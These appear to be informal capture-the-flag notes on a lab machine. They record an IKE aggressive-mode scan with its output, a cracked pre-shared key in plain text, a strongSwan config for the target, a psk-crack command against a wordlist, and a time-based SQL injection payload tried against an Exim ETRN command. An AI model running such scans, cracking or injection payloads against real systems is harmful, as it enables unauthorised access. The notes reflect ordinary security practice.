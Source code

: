 


ISAKMP policy and network security? 
DEBUG: pkt len=356 bytes, bandwidth=56000 bps, int=54857 us
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.249.198  Aggressive Mode Handshake returned HDR=(CKY-R=72ad5d0e3757b2d4) SA=(
Enc=3DES 
Hash=SHA1 
Group=2:modp1024 
Auth=PSK 
LifeType=Seconds 
LifeDuration=28800) KeyExchange(128 bytes) Nonce(3
2 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad713
68a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)



not sure why i can't do ike-scan a second time 
└─$ ike-scan -A -v $HTBHOST                      
ERROR: Could not bind network socket to local port 500
Only one process may bind to the source port at any one time.
ERROR: bind: Address already in use
                                                                                                  

i am not sure which hash to crack because there are multiple hashes being used

freakingrockstarontheroad <- psk 


config setup
    charondebug="all"
    uniqueids=yes
    strictcrlpolicy=no

conn expressway
    authby=secret
    auto=add
    ike=3des-sha1-modp1024!
    esp=3des-sha1!
    type=transport
    keyexchange=ikev1
    left=10.10.14.58 
    right=10.129.249.198
    rightsubnet=10.129.249.198[tcp]


use ssh instead?

Server banner: 220 expressway.htb ESMTP Exim 4.98.2 Fri, 26 Sep 2025 05:39:00 +0100

Client:  ETRN #

ETRN response: 458 Administrative prohibition
 Time: 0.0008130073547363281 

!! ETRN command not supported 

Client:  ETRN #',1); SELECT 1 FROM tbl WHERE 1234=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2
)))) /*

ETRN response: 458 Administrative prohibition
 Time: 0.0003452301025390625 

Not vulnerable


# TODO
- [x] nmap all ports
- [x] nmap udp? port 500
- [x] Crack psk password 
psk-crack -d /usr/share/wordlists/rockyou.txt crackme.txt
- [x] try using ipsec the way that the conceal box uses it 
<-- didnt work, pre auth error
- [x] ssh instead with psk 
- [x] try cve for exim 4.98.2
    <-- seems like not vulnerable
- [x] check tftp server 
    <-- seems like it's also not useful 
- [x] check other strongswan configurations to see if maybe there are other secrets i am missing
- [ ] sudo -l and other sudo stuff 
    <-- deprecated version




